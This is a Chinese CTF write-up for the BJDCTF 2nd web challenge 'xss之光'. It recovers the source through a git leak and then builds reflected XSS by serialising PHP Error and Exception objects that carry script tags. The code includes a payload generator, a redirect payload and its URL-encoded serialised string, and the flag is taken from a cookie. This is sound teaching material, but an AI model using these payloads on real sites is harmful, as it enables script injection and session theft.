 ```yaml
---
layout: post
title: BJDCTF 2nd web wp
date: 2021-07-22 20:10 +0800
last_modified_at: 2021-07-22 20:10:00 +0800
tags: [CTF,Web,Write-up]
toc:  true
---
```


* ## 0x01 xss之光

  关键词：xss，反序列化，php原生类

  打开界面，没有任何可利用信息，猜测为git泄露

  采用GitHack下载源码

  ```
  <?php
  $a = $_GET['yds_is_so_beautiful'];
  echo unserialize($a);
  ```

  发现`unserialize`函数但并没有pop链，考虑用php原生类进行反序列化xss攻击。

  调用__toString魔术方法的原生类：

  * Error（适用于php7）

    XSS（开启报错的情况下）

    ```
    <?php
    $a = new Error("<script>alert(1)</script>");
    $b = serialize($a);
    echo urlencode($b);
    ```

  * Exception（适用于php5、7版本）

    XSS（开启报错的情况下）

    ```
    <?php
    $a = new Exception("<script>alert(1)</script>");
    $b = serialize($a);
    echo urlencode($b);
    ```

  因而构造xss跳转完成xss攻击，payload：

  ```
  <?php
  $a = new Exception("<script>window.location.href = https://www.baidu.com</script>");
  $b = serialize($a);
  echo urlencode($b);
  ?>
  ```

  反序列化后成为：

  ```
  O%3A9%3A%22Exception%22%3A7%3A%7Bs%3A10%3A%22%00%2A%00message%22%3Bs%3A61%3A%22%3Cscript%3Ewindow.location.href+%3D+https%3A%2F%2Fwww.baidu.com%3C%2Fscript%3E%22%3Bs%3A17%3A%22%00Exception%00string%22%3Bs%3A0%3A%22%22%3Bs%3A7%3A%22%00%2A%00code%22%3Bi%3A0%3Bs%3A7%3A%22%00%2A%00file%22%3Bs%3A34%3A%22C%3A%5Cphpstudy_pro%5CWWW%5Cxsspayload.php%22%3Bs%3A7%3A%22%00%2A%00line%22%3Bi%3A2%3Bs%3A16%3A%22%00Exception%00trace%22%3Ba%3A0%3A%7B%7Ds%3A19%3A%22%00Exception%00previous%22%3BN%3B%7D
  ```

  最终在cookie中获取flag

  ![bjd2-1](https://raw.githubusercontent.com/Heart-1ess/Heart_1ess-s-CTF-Note/master/assets/bjd2-1.png)
  

  
